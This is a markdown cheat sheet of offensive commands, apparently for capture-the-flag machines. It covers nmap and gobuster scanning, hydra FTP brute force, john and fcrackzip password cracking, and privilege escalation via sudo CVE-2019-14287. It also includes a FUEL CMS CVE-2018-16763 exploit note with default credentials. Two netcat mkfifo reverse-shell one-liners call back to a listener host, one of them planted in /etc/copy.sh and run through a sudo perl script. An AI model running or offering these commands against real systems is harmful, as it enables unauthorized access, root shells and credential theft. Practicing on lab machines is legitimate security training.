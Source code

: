 ### nmap scan
`sudo nmap -sC -sV -v -oN nmap.md TARGET_IP` 


### Gobuster Scan
`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/`

`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`

`sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`


### dirbuster scan
`sudo dirb http://TARGET_IP/ -R` 

### Cat all find read
`cat *`


### import TARGET_IP
`$IP`


### To Check Sudo Permissions
`sudo -l`
`sudo su`
`su root`

### curl command to change alphabets [agent-user] in web
`sudo curl -A "CHANGE_LETTER" -L TARGET_IP`


### prev esc linux bash shell
`sudo bash`

### download file from SSH TARGET MACHINE
`scp USERNAME@TARGET_IP_ADDRS:FILENAME`


### perl write to copy.sh [reverse shell]
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh`

`sudo /usr/bin/perl /home/itguy/backup.pl`

### FTP Usage
`ftp TARGET_IP`

### SMBclient
`smbclient -L <IP_ADDRESS>`


### python shell - stable bash shell
`python3 -c  'import pty;pty.spawn("/bin/bash")'`


### FUEL CMS Exploit 1.4.1 CVE-2018-16763
`run command with ""`
example:
`CMD: "ls -la"`
default cred: admin: admin


### FUEL CMS Database login info
`fuel/application/config`
`cat database.php`


### netcat revershell
`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"`


### hydra command to brute-force FTP with username
`sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp`


### run python http server
`sudo python -m SimpleHTTPServer 80`


### wget download file
`sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/`

`sudo wget http://YOUR_IP_ADDRS:8080/FILENAME`


### john cracking the password
`sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt`

### john ZIP file cracking
`sudo zip2john FILENAME.zip > OUTFILENAME`

### fcrackzip command
`fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt`

### 7zip
`7z e ZIP_FILENAME`

### steghide command
`steghide info FILENAME [info about filename]`

`steghide extract -sf FILENAME [extract]`

### CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

## sudo 1.8.21 exploit CVE-2019-14287
`sudo -u#-1 /bin/bash [spawn as root]`
